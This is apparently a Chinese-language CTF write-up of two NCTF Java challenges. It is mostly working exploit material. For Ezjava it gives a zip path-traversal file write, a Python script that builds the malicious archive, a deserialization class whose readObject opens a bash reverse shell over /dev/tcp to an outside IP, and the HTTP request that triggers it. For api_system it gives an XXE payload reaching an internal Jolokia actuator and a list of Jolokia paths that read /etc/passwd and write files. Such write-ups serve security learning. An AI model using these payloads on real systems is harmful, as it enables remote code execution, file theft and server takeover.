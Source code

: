 # NCTF_JAVA

>有时间做了一下NCTF的java题，感觉不错记录一下

## Ezjava
考察点：解压路径穿越写文件rce

>tomcat 路径 /usr/local/tomcat 上传的路径 /tmp/fileUpload/

通过写evil.class 然后重写readobject去rce

```
 /tmp/fileUpload/../../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class
```
```
../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class
```

```java
package com.x1c.nctf.controller;

import java.io.*;

public class evil implements Serializable {
    public evil() {    }
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException, InterruptedException {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/101.35.195.134/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }

    public static void main(String[] args) throws Exception {
        evil evil = new evil();
        writeObjectToFile(evil,"1.txt");

    }
    public static void writeObjectToFile(Object obj,String fileName) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        outputStream.writeObject(obj);
        outputStream.close();
    }
}

```
压缩包制作
```python
# -*- coding: utf-8 -*
# /usr/bin/python3
# @Author:Firebasky
import zipfile
file_name="evil.class"
f = zipfile.ZipFile('exp.zip','w',zipfile.ZIP_STORED)
f.write(file_name,'../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class')
f.close()
```

```
GET /html/backdoor?cmd=rO0ABXNyABxjb20ueDFjLm5jdGYuY29udHJvbGxlci5ldmlsfJBBr%2bZElI4CAAB4cA%3d%3d HTTP/1.1
Host: 129.211.173.64:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://129.211.173.64:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://129.211.173.64:8081/html/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## api_system

>这个题，刚刚好拿来学习api,之前学习过springboot的利用思路。并且看到了知识星球的api学习。
>自己一直卡在了绕过/actuator/jolokia/权限的问题，结果通过xxe去绕过。。。

通过[APIKit工具](https://github.com/API-Security/APIKit)去扫描,存在/user/list接口测试发现存在xxe，之后就通过xxe打内网/actuator/jolokia/去绕过

tips：内网端口通过/env去查看


之后就通过/actuator/jolokia/接口的读文件去读flag.


```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://127.0.0.1:8080/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/flag">
]>
<id>&f;</id>
```


[jolokia-exploitation-toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)

```
jolokia/
jolokia/list
jolokia?p=/read/jboss.jmx:alias=jmx%2Frmi%2FRMIAdaptor/State
jolokia/exec/java.lang:type=Memory/gc
jolokia/list?maxObjects=100
jolokia/read/java.lang:type=*/HeapMemoryUsage
jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
jolokia/search/*:j2eeType=J2EEServer,*
jolokia/write/java.lang:type=Memory/Verbose/true
jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
```


